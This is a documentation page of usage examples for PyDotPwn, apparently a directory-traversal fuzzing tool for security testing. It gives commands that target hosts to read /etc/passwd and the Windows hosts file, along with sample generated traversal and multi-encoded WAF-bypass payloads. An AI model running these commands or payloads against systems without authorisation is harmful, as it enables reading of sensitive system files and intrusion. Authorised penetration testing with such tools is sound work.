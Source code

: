 ```yaml
---
layout: page
title: "Examples"
permalink: /examples/
---
```


# 📝 Real-World Examples

This section provides comprehensive examples of using PyDotPwn in real-world security testing scenarios, covering various protocols, environments, and use cases.

## 📋 Table of Contents

- [Web Application Testing](#web-application-testing)
- [Infrastructure Assessment](#infrastructure-assessment)
- [Network Device Testing](#network-device-testing)
- [Custom Protocol Testing](#custom-protocol-testing)
- [Automation and Scripting](#automation-and-scripting)
- [Advanced Scenarios](#advanced-scenarios)
- [Performance Optimization](#performance-optimization)
- [Integration Examples](#integration-examples)

## 🌐 Web Application Testing

### 🆕 Path Validation Bypass - Revolutionary Feature

**Scenario**: Testing modern web applications that validate legitimate path prefixes (NEW EXCLUSIVE FEATURE).

#### Enterprise Web Application Testing
```bash
# Revolutionary: Path validation bypass with 25,000+ patterns
python dotdotpwn.py --module http --host enterprise.com --file /etc/passwd --depth 6
# Generates: /var/www/uploads/../../../../../etc/passwd
#           /var/www/images/../../../../../etc/passwd
#           + 25,000+ more patterns with multi-level encoding

# Windows enterprise application
python dotdotpwn.py --module http --host windows-app.com --file "C:\Windows\System32\drivers\etc\hosts" --depth 4
# Generates: C:\inetpub\wwwroot\uploads\..\..\..\Windows\System32\drivers\etc\hosts
```

#### Advanced WAF Bypass Testing
```bash
# Deep encoding bypass (quintuple URL encoding)
python dotdotpwn.py --module http --host protected.com --file /etc/passwd --depth 3
# Includes patterns like: /var/www/images/%2525252e%2525252e%2525252f%2525252e%2525252e%2525252fetc/passwd

# Pattern generation for analysis
python dotdotpwn.py main --module stdout --os-type unix --file "/etc/passwd" --depth 3 > patterns.txt
# Generates 25,000+ patterns to file for manual analysis
```

